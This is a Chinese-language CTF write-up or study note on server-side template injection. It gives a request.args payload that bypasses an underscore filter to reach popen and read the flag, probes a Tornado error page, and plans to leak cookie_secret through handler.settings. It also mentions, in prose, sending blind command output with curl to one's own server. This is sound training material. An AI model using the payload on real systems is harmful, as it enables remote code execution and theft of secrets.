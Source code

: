 构造paylaod的思路和构造文件读取的是一样的。只不过命令执行的结果无法直接看到，需要利用curl将结果发送到自己的vps或者利用ceye)

<span style="background:#FF9999;">测试是否有注入点  {{1+1}} 之类的，成功执行则说明有模版注入</span>

###### 下划线被过滤？

可以用request.args获取get参数绕过

例如

```
http://e0579dc296f4fa31220536d95e3b68b5.challenge.mini.lctf.online:1080/?class=__class__&mro=__mro__&subclasses=__subclasses__&init=__init__&globals=__globals__&popen=popen&cmd=cat /flag

{{()[request.args.class][request.args.mro][-1][request.args.subclasses]()[127][request.args.init][request.args.globals][request.args.popen](request.args.cmd).read() }}
```



#### 解题

flag in /fllllllllllllag

md5(cookie_secret+md5(filename))

针对报错界面的/error?msg=Error尝试模板注入

![image-20220227211937496](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220227211937496.png)

输入/error?msg={{2}}，返回2

![image-20220228210519796](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220228210519796.png)

/error?msg={{2*4}}，返回ORZ

![image-20220228210447911](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220228210447911.png)

`/error?msg={{4/2}}`，除和减也是返回ORZ，`/error?msg={{*}}`、`/error?msg={{_}}`也是返回ORZ，应该是过滤了特殊字符

###### 怎么找cookie_secret呢？

> [具体分析，源码](https://www.jianshu.com/p/c4070d6f4249)

查看wp发现**用的就是handler.settings对象**

1. 什么是cookie_secret? [tornado文档](https://tornado-zh.readthedocs.io/zh/latest/guide/security.html)里的部分源码：

```python
class MainHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self):
        name = tornado.escape.xhtml_escape(self.current_user)
        self.write("Hello, " + name)

settings = {
    "cookie_secret": "__TODO:_GENERATE_YOUR_OWN_RANDOM_VALUE_HERE__",
    "login_url": "/login",
}
application = tornado.web.Application([
    (r"/", MainHandler),
    (r"/login", LoginHandler),
], **settings)
```
